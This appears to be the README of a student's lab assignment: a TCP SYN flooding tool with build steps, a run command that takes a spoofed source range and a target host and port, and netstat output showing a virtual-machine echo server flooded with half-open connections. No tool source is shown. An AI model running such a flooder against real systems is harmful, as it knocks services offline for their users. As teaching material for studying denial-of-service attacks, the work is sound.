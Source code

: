 # ⚗️ Challenge Sigma

Nom: Marques Andreotti

Prénom: João


# 🏗️ Build

To build the TCP flooding tool run:
```bash
make clean
make
```

After building the tool, you can use it by running:
```bash
sudo ./tcp_flooder (source_ip) (network_mask) (dest_ip) (dest_port)
```

Where the network mask is used in the randomization of the source IP. For instance, we could run:
```bash
sudo ./tcp_flooder 192.168.56.1 255.255.255.0 192.168.56.101 2000
```

# 🧪 Demo

The tool was used against an echo server running on a virtual machine. We can verify that the server works as intended before the attack starts but that new connections are impossible as soon as the tool is used.

We can verify that the server is saturated with requests to open new TCP connections by running `netstat`. Running `netstat` on the server while attacking it yields:

```bash
tcp        0      0 192.168.56.1:cisco-sccp 192.168.56.15:19934     SYN_RECV   
tcp        0      0 192.168.56.1:cisco-sccp 192.168.56.38:52778     SYN_RECV   
tcp        0      0 192.168.56.1:cisco-sccp 192.168.56.65:18734     SYN_RECV   
tcp        0      0 192.168.56.1:cisco-sccp 192.168.56.8:10295      SYN_RECV   
tcp        0      0 192.168.56.1:cisco-sccp 192.168.56.49:6898      SYN_RECV   
tcp        0      0 192.168.56.1:cisco-sccp 192.168.56.84:45232     SYN_RECV   
tcp        0      0 192.168.56.1:cisco-sccp 192.168.56.117:41090    SYN_RECV   
tcp        0      0 192.168.56.1:cisco-sccp 192.168.56.2:41811      SYN_RECV   
tcp        0      0 192.168.56.1:cisco-sccp 192.168.56.47:62792     SYN_RECV   
(...)
```